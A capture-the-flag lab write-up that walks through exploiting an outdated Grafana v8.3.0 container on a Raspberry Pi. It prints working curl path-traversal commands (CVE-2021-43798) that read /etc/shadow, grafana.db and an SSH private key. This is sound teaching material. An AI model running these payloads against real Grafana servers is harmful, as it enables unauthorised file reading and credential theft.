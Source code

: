 ## Outdated software - Grafana 2

### Scenario 

Grafana verison has changed, how about this time, is it secure?

There's no login provided for this challenge, but do we even need it?

### Prerequisites

Raspberry Pi

Cloned CTF-pi onto your Raspi.


### Requirements

Run within this directory on Raspi: `docker compose up --build -d` (Using remote shell/physical keyboard and mouse)

`hostname -I` to find out which IP the service is running on and visit it in your browser. Your main computer or even a phone can access this, as long as they are within the same network as Raspberry Pi.

Which port is Grafana running on by default? Find out.

Find the Grafana version.

Find an existing vulnerability and exploit it.

There's plenty of sensitive files in Linux, find which one contains the flag.

Once you have found the flag check if they match: `answers/flag.txt`.


### Steps to complete

Google reveals that default Grafana port is 3000, and `hostname -I` reveals the IP, in my case the address to the service is: `10.10.10.67:3000`.

Enter this into your URL bar of your browser and you land on Grafana login page. 

We don't know the username or password, how do we find the version? I found them from page source! "subTitle":"Grafana v8.3.0

Google for Grafana exploits for the verion it is currently running on.

https://vulncheck.com/blog/grafana-cve-2021-43798

Made script that does everything automatically: https://www.exploit-db.com/exploits/50581

I ran this:
```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../<path>/<filename>' --path-as-is --output text.txt

```
There's file's like /etc/passwd; /etc/shadow ; grafana configuration files ; grafana.db ; /home/grafana/.ssh/id_rsa, let's try the last one.

We can read the file contents from the saved `text.txt` file: `cat text.txt`

```
curl 'http://10.10.10.67:3000/public/plugins/zipkin/../../../../../../../../home/grafana/.ssh/id_rsa' --path-as-is --output text.txt

```

What we just did is arbitrary path traversal, the user can input however many ../ they want so they get to the root directory, there's plenty of sensitive files like databases or device users with their password hashes, also private ssh keys, if attacker can reach these, then there's a high chance they can take control of everything on the Rasperry Pi in this case.

### Cleaning up

`docker compose down`